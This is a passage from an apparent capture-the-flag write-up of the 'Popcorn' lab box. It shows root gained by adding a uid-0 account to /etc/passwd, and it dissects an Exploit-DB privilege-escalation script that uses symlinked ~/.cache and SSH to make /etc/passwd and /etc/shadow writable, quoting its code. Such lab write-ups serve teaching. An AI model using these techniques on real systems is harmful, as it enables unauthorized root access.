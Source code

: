 
The user is oxdf, the password is the hash of `0xdf`, the user and group
ids are 0 for root, the description is pwned, the home directory is
`/root`, and the shell is `/bin/bash`.

#### Shell

Now I can just `su` to oxdf to get a root shell:



    www-data@popcorn:/var/www$ su - oxdf
    Password: 
    root@popcorn:~# id
    uid=0(root) gid=0(root) groups=0(root)



And grab `root.txt`:



    root@popcorn:~# cat root.txt
    f1223310************************



### Script

#### Analysis

The [Exploid-DB script](https://www.exploit-db.com/exploits/14339)
defines a bunch of functions, does some basic checks, and then runs
this:



    KEY="$(mktemp -u)"
    key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
    backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
    own /etc/passwd && echo "$P" >> /etc/passwd
    own /etc/shadow && echo "$S" >> /etc/shadow
    restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
    key_remove
    echo "[+] Success! Use password toor to get root"
    su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
      chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor



`key_create` creates an SSH key and installs it into the current user's
home directory, being careful to backup whatever is already there.

`backup ~/.cache` will do just that - create a backup copy of the
directory.

The `own` function is worth looking at:



    own() {
        [ -e ~/.cache ] && rm -rf ~/.cache
        ln -s "$1" ~/.cache || return 1
        echo "[*] spawn ssh"
        ssh -o 'NoHostAuthenticationForLocalhost yes' -i "$KEY" localhost true
        [ -w "$1" ] || { echo "[-] Own $1 failed"; restore ~/.cache; bye; }
        echo "[+] owned: $1"
    }
